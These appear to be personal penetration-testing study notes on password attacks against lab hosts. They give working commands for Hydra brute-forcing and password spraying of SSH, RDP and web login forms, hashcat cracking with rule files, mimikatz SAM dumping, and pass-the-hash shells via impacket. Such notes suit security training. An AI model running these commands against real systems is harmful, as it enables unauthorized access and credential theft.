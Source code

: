 [[Notes/Password Attacks|Password Attacks]]

# Attacking Network Service Logins
## SSH and RDP logins
### THC-Hydra
TAGS: #hydra #password-cracking #dictionary-attack #ssh #rdp
```shell
# unzip if it wasn't already
sudo gzip -d rockyou.txt.gz

# simple hydra command
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```
#### Password Spraying
```shell
# password sparying with a list of usernames
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```
## HTTP POST login forms
```shell
# put things in place after we have intercepted with burp (could utilize burp's intruder?)
# hydra -l ^username^ -P ^password list path^ ^host^ http-post-form "location:var1=^username^:var2=^PASS^:^login_failed_text^"
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

# Password Cracking
```shell
echo -n "secret" | sha256sum #-n for eliminating new line

# wordcount
echo -n "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789" | wc -c

# hashcat benchmaerk
hashcat -b
# OR
hashcat.exe -b

# calculate
(($word_count^$password_length)/$hash_rate*100000) = $seconds
```

## Wordlist mutation
USEFUL LINK : https://hashcat.net/wiki/doku.php?id=rule_based_attack
```shell
# remove lines start with "1", -i instantanious /^1 start with "1", /d delete
sed -i '/^1/d' wordlist.txt

# rule file to append "1" to the end of each line
echo \$1 > rule.rule

# hashcat in debugging mode with -r for rule sets
hashcat -r demo.rule --stdout wordlist.txt

# capitalize the first letter and add "1" at the end of line
cat rule1.rule
$1 c

# same as above, but it will do the jobs separately
cat rule2.rule
$1
c

# premade rule files for hashcat
ls -la /usr/share/hashcat/rules/

```

# Working with Hashes

```shell
# identifying hashes
hash-identifier

Enter Hash : 

# if it cannnot identify
hashcat hash.txt

The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+=================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
   #<SNIP>
```
## Cracking NTLM
```powershell
# Getting all users
Get-LocalUser

# mimikatz (open with elevated privileged)
.\mimikatz.exe

## inside mimikatz

# see out privilege
mimikatz # privilege::debug

# elevate to system
mimikatz # token::elevate

# dump the SAM database
lsadump::sam
```

```shell
# hashcat to crack
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

```

## Passing NTLM
```shell
# pass the hash to SMB service
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash <-hash->

# use PSexec (this will get nt-authority)
# don't forget to add LM hash as 16*0
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

#wmiexec (get the ntlm owner shell)
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212



```